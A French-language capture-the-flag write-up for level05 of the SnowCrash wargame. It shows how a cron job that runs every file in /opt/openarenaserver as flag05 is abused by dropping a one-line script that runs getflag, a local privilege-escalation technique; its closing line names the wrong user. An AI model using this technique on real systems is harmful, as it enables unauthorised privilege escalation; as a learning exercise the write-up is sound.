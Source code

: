 En se connectant, on remarque le message `You have new mail.`.

Ce qui peut indiquer une information intéressante envoyée par le système.

On inspecte les variables d’environnement avec `env`.

```bash
You have new mail.
level05@SnowCrash:~$ ls
level05@SnowCrash:~$ env
...
MAIL=/var/mail/level05
...
```

Ce chemin mène à un fichier dont on peut lire le contenu.

```bash
level05@SnowCrash:~$ ls -l /var/mail/level05
-rw-r--r--+ 1 root mail 58 Mar 12  2016 /var/mail/level05
```

En lisant le contenu de ce fichier, on découvre une tâche cron :

```bash
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

Cette ligne signifie qu’un script (`/usr/sbin/openarenaserver`) est exécuté toutes les 2 minutes en tant qu’utilisateur `flag05`.

```bash
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

Le script parcourt tous les fichiers dans `/opt/openarenaserver/`, les exécute avec bash dans un environnement restreint (limité à 5 secondes CPU via `ulimit`), puis les supprime.

Exploitation du script avec getflag :

`echo "/bin/getflag | wall" > /opt/openarenaserver/exploit`

Puisqu'il n'y a aucun filtrage sur ce qui est exécuté, on peut faire ce qu'on veut en tant qu'utilisateur **level05**.
